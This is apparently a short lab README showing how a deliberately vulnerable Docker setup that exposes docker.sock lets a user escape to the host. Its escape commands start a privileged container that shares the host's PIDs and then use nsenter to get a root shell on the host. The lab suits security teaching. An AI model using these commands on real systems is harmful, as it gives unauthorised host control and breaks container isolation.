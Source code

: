 # docker.sock Escape

This is an example of a docker.sock escape. This is a vulernable configuration of docker containers that allows a user with command line acess to very easily escape to the hsot system.

## Set-Up

Run the following command to get put into the vulnernable docker container


```
docker compose run -it exploit /bin/bash
```

## Escape

To escape there are two steps to this escape, first you build a more vulnerable container and then you escape from it onto the host system.

### Build More Vulnerable Container

The following command builds a priviledged container that has access to all of those host pids.

```
docker run -it --rm --pid=host --privileged ubuntu bash
```

### Exploit that container

I cannot explain exactly how this command works, but it does. The gist of it is that you are able to enter the namespace of the host system and run bash giving you a shell.

```
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

For more info on this kinds of attack, this is a great resource: 
* https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation